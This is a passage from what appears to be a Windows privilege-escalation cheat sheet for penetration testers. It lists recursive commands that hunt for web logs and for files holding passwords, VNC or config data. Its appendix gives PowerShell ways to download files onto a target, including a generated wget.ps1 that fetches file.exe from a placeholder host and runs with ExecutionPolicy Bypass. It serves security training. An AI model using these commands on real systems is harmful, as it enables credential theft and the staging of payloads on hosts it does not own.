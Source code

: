 Any Apache web logs?

```
dir /s access.log error.log
```

```
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

Any interesting files to look at? Possibly inside User directories \(Desktop, Documents, etc\)?

```
dir /s *pass* == *vnc* == *.config* 2>nul
```

```
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
```

Files containing password inside them?

```
findstr /si password *.xml *.ini *.txt *.config 2>nul
```

```
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

# Appendix {#appendix}

## Transferring Files {#transferring-files}

At some point during privilege escalation you will need to get files onto your target. Below are some easy ways to do so.

Powershell Cmdlet \(Powershell 3.0 and higher\)

```
Invoke-WebRequest "https://myserver/filename" -OutFile "C:\Windows\Temp\filename"
```

Powershell One-Liner

```
(New-Object System.Net.WebClient).DownloadFile("https://myserver/filename", "C:\Windows\Temp\filename") 
```

Powershell Script

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://IPADDRESS/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
